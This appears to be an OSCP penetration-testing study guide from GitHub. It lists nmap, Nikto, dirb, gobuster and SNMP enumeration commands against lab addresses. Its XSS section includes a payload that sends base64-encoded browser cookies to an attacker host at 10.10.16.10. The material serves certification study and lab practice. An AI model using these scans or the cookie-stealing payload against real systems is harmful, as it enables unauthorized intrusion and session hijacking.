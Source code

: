 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon

### NMAP:

Legend: 
```
-sN TCP Null Scan reveals the status of ports without directly querying them
-sV: Probe open ports to determine service/version info
-sC: equivalent to --script=default
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
-sU: UDP Scan
-O: Enable OS detection
-g/--source-port <portnum>: Use given port number
-oA <basename>: Output in the three major formats at once
-A: Enable OS detection, version detection, script scanning, and traceroute
--version-light: Limit to most likely probes (intensity 2)
```

Examples Commands:

```
nmap -sC -sV -oA nmap\machine 10.10.10.1
```
```
nmap -A -T4 -p- -oA nmap\machine 10.10.10.1
```

UDP Scanning:

```
nmap -sU -oA nmap\machine_udp
```

Vulnerability Scanning:

```
sudo nmap --script vuln 10.11.1.10
```

### subdomain enumeration

```
dig axfr @10.10.10.13 cronos.htb
```

### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```
